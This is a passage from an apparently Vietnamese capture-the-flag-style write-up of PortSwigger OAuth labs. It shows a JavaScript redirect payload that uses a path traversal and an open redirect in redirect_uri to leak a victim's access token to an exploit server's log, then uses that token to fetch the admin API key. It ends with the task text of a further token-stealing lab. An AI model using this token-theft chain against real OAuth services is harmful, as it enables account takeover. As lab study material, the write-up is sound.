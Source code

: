 ```
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```

Giải thích: đoạn `window.location = '/?'+document.location.hash.substr(1)` thì `window.location` là giá trị URL hiện tại. `document.location.hash.substr(1)` sẽ là giá trị ở sau dấu `#` đầu tiên có trọng URL. Ví dụ: `http://example.com/#section1` sẽ trở thành `http://example.com/?section1`
=> Nếu ban đầu chưa có link URL chứa ký tự `#` thì sẽ redirect trình duyệt người dùng vào link `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email`. Khi này victim sẽ lại được redirect về link `exploit` trên Exploit Server lần nữa, tuy nhiên sẽ kèm theo giá trị value token đằng sau ký tự `#`. Lúc này `window.location = '/?'+document.location.hash.substr(1)` sẽ thực hiện chuyển đổi `#` thành `?` => Chúng ta sẽ thu được giá trị token này trong access log của Exploit Server.

<img width="630" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/4b310bc0-25d6-4e64-92be-b3b044af1fa9">

- Với giá trị token thu được, gửi request vào link `/me`:

<img width="491" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/14bbc6d3-bf51-4a0f-9356-db1aad732d37">

- Submit api key thu được & Lab Resolved!

<img width="583" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/3cb15e1c-6119-4148-8f6d-318e54148f2c">

***

## 5. Lab: Stealing OAuth access tokens via a proxy page

* Content:
```
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify a secondary vulnerability in the client application and use this as a proxy to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: wiener:peter.
```
* Exploit:
